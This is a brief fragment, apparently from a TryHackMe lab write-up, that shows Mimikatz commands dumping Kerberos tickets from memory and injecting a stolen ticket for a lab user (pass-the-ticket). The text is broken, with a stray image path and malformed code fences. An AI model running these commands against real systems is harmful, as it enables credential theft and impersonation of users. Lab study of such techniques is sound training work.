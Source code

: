 
```shell-session
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
``````
```

[0;222d30]-0-0-40a10000-t1_toby.beck@HTTP-THMIIS.za.tryhackme.com.kirbi 


```shell-session
mimikatz # kerberos::ptt [0;222d30]-0-0-40a10000-t1_toby.beck@HTTP-THMIIS.za.tryhackme.com.kirbi
